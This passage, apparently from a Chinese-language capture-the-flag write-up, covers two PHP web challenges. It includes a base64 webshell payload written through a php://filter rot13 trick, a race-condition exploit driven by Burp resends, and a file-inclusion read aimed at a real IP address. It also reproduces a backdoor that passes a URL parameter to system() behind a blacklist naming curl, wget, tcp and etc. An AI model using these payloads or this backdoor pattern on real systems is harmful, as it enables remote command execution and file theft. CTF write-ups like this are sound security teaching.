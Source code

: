```
goods=PD9waHAgc3lzdGVtKCJjYXQgLi9mbGFnLnBocCIpOw==&train=php://filter/write=string.rot13/resource=a.php
```



### 拿flag

因为会删掉当前目录下的文件，所以得条件竞争访问，上面的payload都可以用

post，然后bp抓包，爆破模块疯狂重发包~

![](https://i.loli.net/2021/10/08/2KLtoVPuF39v7US.png)

访问a.php，查看源代码

![](https://i.loli.net/2021/10/08/lyCt7Gp3vkDThoJ.png)





## [😮Mid]BlackPage

```
<!-- \<\?phps
$file = $_GET["file"];
$blacklist = "(**blacklist**)";
if (preg_match("/".$blacklist."/is",$file) == 1){
  exit("Nooo,You can't read it.");
}else{
  include $file;
}
//你能读到 mybackdoor.php 吗？

---->
```

伪协议读mybackdoor.php

```
http://121.41.7.149:65002/?file=php://filter/convert.base64-encode/resource=mybackdoor.php
```

得到mybackdoor.php源码：

```php
<?php
error_reporting(0);
function blacklist($cmd){
  $filter = "(\\<|\\>|Fl4g|php|curl| |0x|\\\\|python|gcc|less|root|etc|pass|http|ftp|cd|tcp|udp|cat|×|flag|ph|hp|wget|type|ty|\\$\\{IFS\\}|index|\\*)";
  if (preg_match("/".$filter."/is",$cmd)==1){  
      exit('Go out! This black page does not belong to you!');
  }
  else{
    system($cmd);
  }
}
blacklist($_GET['cmd']);
?>
```
